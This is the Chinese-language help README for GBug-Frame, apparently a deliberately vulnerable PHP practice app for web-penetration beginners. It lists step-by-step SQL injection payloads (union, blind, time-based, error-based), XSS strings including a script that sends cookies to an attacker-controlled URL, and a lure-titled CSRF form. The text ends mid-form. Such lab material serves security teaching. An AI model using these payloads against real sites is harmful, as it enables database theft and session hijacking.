







# GBug-Frame 帮助文档

## 简介

> GBug-Frame 是一个集成PHP漏洞的Web应用。适用于学习Web渗透的新手。本框架集成了SQL注入、XSS跨站脚本攻击、CSRF跨站请求伪造、文件上传、代码执行、命令执行、反序列化等漏洞。
>
> 作者：grey_network 
>
> QQ：2050078088

## 环境搭建

### 1.将 gbug.sql 导入到数据库中

```MYSQL
CREATE DATABASE gbug; # 创建数据库，sql文件里已经写了创建的语句，所以直接导入就好了
mysql -u username -p database_name < gbug.sql # 导入sql文件
```

### 2.修改 config.php 配置文件

```php
# 位于 config 目录下
$config['db']['Host'] = "" // 这里修改连接地址
$config['db']['Database'] = "" // 这里修改数据库名
$config['db']['User'] = "" // 这里修改数据库用户名
$config['db']['Pwd'] = "" // 这里修改数据库密码
```


## SQL注入

> SQL注入漏洞（SQL Injection）是一种常见的Web安全漏洞，攻击者可以通过在Web应用程序的输入字段中插入恶意的SQL代码，从而操控数据库执行非法的SQL查询操作。SQL注入攻击可能导致敏感数据泄露、篡改、删除，甚至是远程执行系统命令的风险。

### ASCII码对照表

| ASCII | 字符 | ASCII | 字符 | ASCII | 字符 | ASCII | 字符 |
| :---: | :--: | :---: | :--: | :---: | :--: | :---: | :--: |
|  33   |  !   |  48   |  0   |  63   |  ?   |  105  |  i   |
|  34   |  "   |  49   |  1   |  64   |  @   |  106  |  j   |
|  35   |  #   |  50   |  2   |  65   |  A   |  107  |  k   |
|  36   |  $   |  51   |  3   |  66   |  B   |  108  |  l   |
|  37   |  %   |  52   |  4   |  67   |  C   |  109  |  m   |
|  38   |  &   |  53   |  5   |  68   |  D   |  110  |  n   |
|  39   |  '   |  54   |  6   |  69   |  E   |  111  |  o   |
|  40   |  (   |  55   |  7   |  70   |  F   |  112  |  p   |
|  41   |  )   |  56   |  8   |  71   |  G   |  113  |  q   |
|  42   |  *   |  57   |  9   |  72   |  H   |  114  |  r   |
|  43   |  +   |  58   |  :   |  73   |  I   |  115  |  s   |
|  44   |  ,   |  59   |  ;   |  74   |  J   |  116  |  t   |
|  45   |  -   |  60   |  <   |  75   |  K   |  117  |  u   |
|  46   |  .   |  61   |  =   |  76   |  L   |  118  |  v   |
|  47   |  /   |  62   |  >   |  77   |  M   |  119  |  w   |
|  49   |  0   |  63   |  ?   |  78   |  N   |  120  |  x   |
|  50   |  1   |  64   |  @   |  79   |  O   |  121  |  y   |
|  51   |  2   |  65   |  A   |  80   |  P   |  122  |  z   |
|  52   |  3   |  66   |  B   |  81   |  Q   |  123  |  {   |
|  53   |  4   |  67   |  C   |  82   |  R   |  124  |      |
|  54   |  5   |  68   |  D   |  83   |  S   |  125  |  }   |
|  55   |  6   |  69   |  E   |  84   |  T   |  126  |  ~   |
|  56   |  7   |  70   |  F   |  85   |  U   |  127  | DEL  |
|  57   |  8   |  71   |  G   |  86   |  V   |       |      |
|  58   |  9   |  72   |  H   |  87   |  W   |       |      |
|  59   |  :   |  73   |  I   |  88   |  X   |       |      |
|  60   |  ;   |  74   |  J   |  89   |  Y   |       |      |
|  61   |  =   |  75   |  K   |  90   |  Z   |       |      |
|  62   |  >   |  76   |  L   |  91   |  [   |       |      |
|  63   |  ?   |  77   |  M   |  92   |  \   |       |      |

### 联合查询注入

> 联合查询通俗的说就是合并多个相似的选择查询的结果集。等同于将一个表追加到另一个表，从而实现将两个表的查询组合到一起，使用谓词为UNION或UNION ALL。

#### 判断是否可以注入

```mysql
and 1=1 # 返回正常
```


```mysql
and 1=2 # 返回异常
```


```
其外的像输入单引号报错等，也是检测sql注入漏洞的测试方法。
```

#### 判断列数

```mysql
order by 1 ...
union select null,null ...
union select 1,2,3 ...
```

```
访问 order by 5 的时候，页面异常了没有显示数据。这说明表的字段总共有4个。用 union select 1,2,3,4 这样来测试也是可以的。
```


#### 查询数据库用户

````mysql
union select null,group_concat(user()),NULL
union select 1,group_concat(user()),3
````


#### 查询MySQL版本

```mysql
union select null,group_concat(version()),NULL
union select 1,group_concat(version()),3
```


#### 查询数据库名

```mysql
# 查询当前数据库名
union select null,group_concat(database()),null
union select 1,group_concat(database()),3

# 查询所有数据库名
union select null,group_concat(schema_name),null from information_schema.schemata
UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',schema_name)),0x7e),NULL FROM INFORMATION_SCHEMA.SCHEMATA
```

```
查询当前数据库名
```


```
查询所有数据库名
```


#### 查询表名

```mysql
union select null,group_concat(table_name),null from information_schema.tables where table_schema=数据库名

UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',table_name)),0x7e),NULL FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=数据库名
```


```
如果要查询指定数据库名可以将databse() 替换成 16进制转换后的数据库名 0x67627567，或者 'gbug' 
```


#### 查询字段名

```mysql
union select null,group_concat(column_name),null from information_schema.columns where table_schema=数据库名 and table_name=表名

UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',column_name)),0x7e),NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema=数据库名 and table_name=表名
```


#### 查询数据内容

```mysql
union select null,group_concat(id,0x7e,username,0x7e,password),null from 数据库名.表名
```


### 布尔盲注

> 在页面中显示数据信息不完整或不显示，只会显示对与错的内容。该场景下我们可以使用盲注来进行SQL注入。
>
> 布尔盲注：通俗的说就是判断页面显示内容来进行注入

#### 判断页面返回内容

```mysql
and 1=1 # 返回正常页面
```


```mysql
and 1=2 # 页面返回404
```


#### 判断数据库数量

```mysql
AND ((SELECT COUNT(schema_name) FROM information_schema.schemata)=1)
```

```
注入语句等于 9 时它页面返回正常内容，因此它的数据库总数为 9。
```


#### 判断数据库名长度

```mysql
# database() 是当前数据库
AND ((SELECT LENGTH(database()))=7)
# 以下是指定数据库，通过第x个以数字代表来指定某个数据库。从 0 开始
AND ((SELECT LENGTH(schema_name) FROM information_schema.schemata limit 第x个数据库,1)=7)
```

```
第一个数据库名长度为 7
```


#### 判断数据库名

```mysql
AND ((SELECT ASCII(SUBSTR(schema_name,第x位,1)) FROM information_schema.schemata limit 第x个数据库,1)=ascii码)
```

```
ascii码 98 对应的字符是 b，第一个数据库的完整名是 bugtest，第一位是 b
```


#### 判断表的数量

```mysql
# 数据库名可以使用字符串也可以使用字符串转换后的16进制
AND ((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='数据库名')=6)
AND ((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=0x67627567)=6)
```

```
gbug 数据库的表总数为 6
```


#### 判断表名长度

```mysql
AND ((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=7)
```

```
gbug 数据库的第一个表的表名长度为 7
```


#### 判断表名

```mysql
AND ((SELECT ASCII(SUBSTR(table_name,第x位,1)) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=ascii码)
```

```
ascii码 97 对应的字符是 a，数据库 gbug的第一个表完整的表名是 address，第一位是 a
```


#### 判断字段的数量

```mysql
AND ((SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名')=1)
```

```
gbug 数据库的users表字段总数为 3
```


#### 判断字段名长度

```mysql
AND ((SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=2)
```

```
gbug 数据库的users表的第一个字段长度为 2
```


#### 判断字段名

```mysql
AND ((SELECT ASCII(SUBSTR(column_name,第x位,1)) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=ascii码)
```

```
ascii码 105 对应的字符是 i，数据库 gbug的users表中的第一个字段完整的字段名为 id，第一位是 i
```


#### 判断数据数量

```mysql
AND ((SELECT COUNT(字段名) FROM 数据库名.表名)=1)
```

```
gbug 数据库的users表数据数量为 2
```


#### 判断数据内容长度

```mysql
AND ((SELECT LENGTH(字段名) FROM 数据库名.表名 limit 第x条数据,1)=4)
```

```
gbug 数据库的users表中username字段的数据内容长度为 4
```


#### 判断数据内容

```mysql
AND ((SELECT ASCII(SUBSTR(字段名,第x位,1)) FROM 数据库名.表名 limit 第x条数据,1)=ascii码)
```

```
ascii码 103 对应的字符是 g，数据库 gbug的users表中第一条数据的username字段的完整数据内容是 gbug，第一位是 g
```


### 时间盲注

> 基于时间来判断SQL语句是否执行，通俗的说就是执行一条带有延时功能的SQL语句。

#### 判断数据库数量

```mysql
AND IF((SELECT COUNT(schema_name) FROM information_schema.schemata)=1,sleep(2),0)
```

```
访问站点时，延迟了5秒。说明我们构造的注入语句执行了。
```


#### 判断数据库名长度

```mysql
AND IF((SELECT LENGTH(schema_name) FROM information_schema.schemata limit 第x个数据库,1)=7,sleep(2),0)
```

#### 判断数据库名

```mysql
AND IF((SELECT ASCII(SUBSTR(schema_name,第x位,1)) FROM information_schema.schemata limit 第x个数据库,1)=ascii码,sleep(2),0)
```

#### 判断表的数量

```mysql
AND IF((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='数据库名')=2,sleep(2),0)
```

#### 判断表名长度

```mysql
AND IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=7,sleep(2),0)
```

#### 判断表名

```mysql
AND IF((SELECT ASCII(SUBSTR(table_name,第x位,1)) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=ascii码,sleep(2),0)
```

#### 判断字段的数量

```mysql
AND IF((SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名')=3,sleep(2),0)
```

#### 判断字段名长度

```mysql
AND IF((SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=2,sleep(2),0)
```

#### 判断字段名

```mysql
AND IF((SELECT ASCII(SUBSTR(column_name,第x位,1)) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=ascii码,sleep(2),0)
```

#### 判断数据数量

```mysql
AND IF((SELECT COUNT(字段名) FROM 数据库名.表名)=1,sleep(2),0)
```

#### 判断数据内容长度

```mysql
AND IF((SELECT LENGTH(字段名) FROM 数据库名.表名 limit 第x条数据,1)=1,sleep(2),0)
```

#### 判断数据内容

```mysql
AND IF((SELECT ASCII(SUBSTR(字段名,第x位,1)) FROM 数据库名.表名 limit 第x条数据,1)=ascii码,sleep(2),0)
```

### 报错注入

> 数据库显错，是指数据库在执行语句时因为语句的问题所显示的错误。报错注入是通过mysql语句的错误回显进行注入。

#### 获取数据库用户

```mysql
updatexml(null,concat(0x7e,(select user()),0x7e),null)
```


#### 获取MySQL版本

```mysql
updatexml(null,concat(0x7e,(select version()),0x7e),null)
```


#### 获取当前数据库名

```mysql
updatexml(null,concat(0x7e,(select database()),0x7e),null)
```


#### 获取数据库数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(schema_name))FROM(information_schema.schemata)),0x7e),1)
```


#### 获取数据库名长度

```mysql
# 获取某个数据库的数据库名长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(schema_name))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```


```mysql
# 获取输出所有数据库名的字符串长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(group_concat(schema_name)))FROM(information_schema.schemata)),0x7e),1)
```


#### 获取所有数据库名

```mysql
# 获取所有数据库的数据库名，因为有长度限制。所以通过substing截取 1,15 代表着截取1至15的字符内容
updatexml(1,concat(0x7e,(SELECT(SUBSTRING(group_concat(schema_name),字符串头,字符串尾))FROM(information_schema.schemata)),0x7e),1)
```


```mysql
# 通过 limit 来指定第几个，但是数据库名过长的话会导致显示不完整，mysql报错输出内容有长度限制
updatexml(1,concat(0x7e,(SELECT(CONCAT(schema_name))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```


```mysql
# 获取数据库名ASCII码
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(schema_name,第x位,1)))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```


#### 获取表的数量

```mysql
# 获取某个数据库中表的数量
updatexml(1,concat(0x7e,(SELECT(COUNT(table_name))FROM(information_schema.tables)WHERE(table_schema='数据库名')),0x7e),1)
```


#### 获取表名长度

```mysql
# 获取某个表的表名长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(table_name))FROM(information_schema.tables)WHERE(table_schema='数据库名') limit 第x个表,1),0x7e),1)
```


```mysql
# 获取输出所有表名的字符串长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(group_concat(table_name)))FROM(information_schema.tables)WHERE(table_schema='数据库名')),0x7e),1)
```


#### 获取所有表名

```mysql
# 获取所有表名，因为有长度限制。所以通过substing截取 1,15 代表着截取1至15的字符内容
updatexml(1,concat(0x7e,(SELECT(SUBSTRING(group_concat(table_name),字符串头,字符串尾))FROM(information_schema.tables)WHERE(table_schema='数据库名')),0x7e),1)
```


```mysql
# 通过 limit 来指定第几个，但是表名过长的话会导致显示不完整，mysql报错输出内容有长度限制
updatexml(1,concat(0x7e,(SELECT(CONCAT(table_name))FROM(information_schema.tables)WHERE(table_schema='数据库名') limit 第x个表,1),0x7e),1)
```


```mysql
# 获取表名ASCII码
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(table_name,第x位,1)))FROM(information_schema.tables)WHERE(table_schema='数据库名') limit 第x个数表,1),0x7e),1)
```


#### 获取字段数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名')),0x7e),1)
```


#### 获取字段名长度

```mysql
# 获取某个字段的字段名长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```


```mysql
# 获取输出所有字段名的字符串长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(group_concat(column_name)))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名')),0x7e),1)
```


#### 获取所有字段名

```mysql
# 获取所有字段名，因为有长度限制。所以通过substing截取 1,15 代表着截取1至15的字符内容
updatexml(1,concat(0x7e,(SELECT(SUBSTRING(group_concat(column_name),字符串头,字符串尾))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名')),0x7e),1)
```


```mysql
# 通过 limit 来指定第几个，但是字段名过长的话会导致显示不完整，mysql报错输出内容有长度限制
updatexml(1,concat(0x7e,(SELECT(CONCAT(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```


```mysql
# 获取字段名ASCII码
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(column_name,第x位,1)))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```


#### 获取数据数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(字段名))FROM(数据库名.表名)),0x7e),1)
```



#### 获取数据内容长度

```mysql
# 获取某条数据的数据内容长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(字段名))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```


```mysql
# 获取输出所有数据的字符串长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(group_concat(字段名)))FROM(数据库名.表名)),0x7e),1)
```


#### 获取所有数据内容

```mysql
# 获取所有数据内容，因为有长度限制。所以通过substing截取 1,30 代表着截取1至30的字符内容
updatexml(1,concat(0x7e,(SELECT(SUBSTRING(group_concat(id,'-',username,'-',password),字符串头,字符串尾))FROM(数据库名.表名)),0x7e),1)
```


```mysql
# 通过 limit 来指定第几个，但是数据内容过长的话会导致显示不完整，mysql报错输出内容有长度限制
updatexml(1,concat(0x7e,(SELECT(CONCAT(字段名))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```


```mysql
# 获取数据内容ASCII码
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(字段名,第x位,1)))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```


### POST注入

> 通过单引号闭合及注释来构造sql语句，用户登录的post请求一般情况下都是用盲注，因为该类项目大多都通过判断sql语句是否执行成功来决定登录成功与失败。

```mysql
# 以下是通过post请求进行联合查询注入的例子
users=test' and 1=2 union select 1,version(),3-- -&pwd=test123
```


```mysql
# 以下通过post请求进行盲注的例子
AND ((SELECT COUNT(schema_name) FROM information_schema.schemata)=9)
```


### COOKIE注入

> 通过修改浏览器的cookie值来进行SQL注入

```mysql
1 and 1=1 # 返回正常
1 and 1=2 # 返回异常
```




## XSS跨站脚本攻击

> XSS跨站脚本攻击：XSS是一种在WEB应用中的计算机安全漏洞，它允许恶意WEB用户将代码植入到WEB网站里面，供给其他用户访问，当用户访问到有恶意代码的网页就会产生XSS攻击。

### XSS攻击代码

```html
弹框
<script>alert(1)</script>
```

```html
获取cookie
<script>alert(document.cookie)</script>
```

```html
获取host
<script>alert(document.location.host)</script>
```

### XSS跨站脚本攻击-反射型

> 反射型XSS，通俗的说就是代码非持久性的。

```
我们将恶意的代码输入的用户输入框里提交，则会执行该恶意代码。
```


### XSS跨站脚本攻击-存储型

> 存储型XSS，通俗的说就是代码可持久性的。

```
我们将恶意的代码作为留言发表后，恶意代码将保存到它的数据库中，刷新页面时则会执行该恶意代码。
```


### XSS跨站脚本攻击-Dom型

> Dom型XSS，通俗的说就是攻击者通过操控网页的 Dom (文档对象模型) 来注入恶意脚本。

```
我们通过输入框输入恶意代码再生成链接，它会就将该恶意代码插入到dom元素的href属性中，点击链接时就会触发恶意代码。
```


### XSS跨站脚本攻击-窃取Cookie

#### JavaScript 代码

```js
var img=document.createElement("img");
img.src="url?host="+escape(document.toplocation)+"&cookie="+escape(document.cookie);
document.body.appendChild(img);
```

#### XSS攻击代码

```html
<script src="javascript地址"></script>
```

```
我们将窃取Cookie的XSS攻击代码写到留言中，然后提交发布留言。当有人访问存储该恶意代码的页面时就会将它浏览器的Cookie发送给攻击者。
```


```
以下是我自己开发的一个XSS平台用于测试。
```


## CSRF & SSRF

### CSRF跨站请求伪造

> CSRF跨站请求伪造，通俗的说就是伪造一个与用户认证过的站点页面欺骗其进行访问造成恶意操作，例如:a要给b转账100美金，这时hacker伪造了一个站点页面并通过欺骗诱惑其进行访问，最终造成a给hacker转账了10000美金。

```
以下是站点添加收货地址的业务页面
```


```
我们可以通过伪造一个页面，让用户点击，实现添加我们的收货地址的目的。
```

```html
<title>免费看片 - 点击观看</title>
<form action="http://192.168.1.13:8009/csrf/found" method="post">
<input type="hidden" name="name" value="hacker"/>
<input type="hidden" name="tel" value="1008611"/>
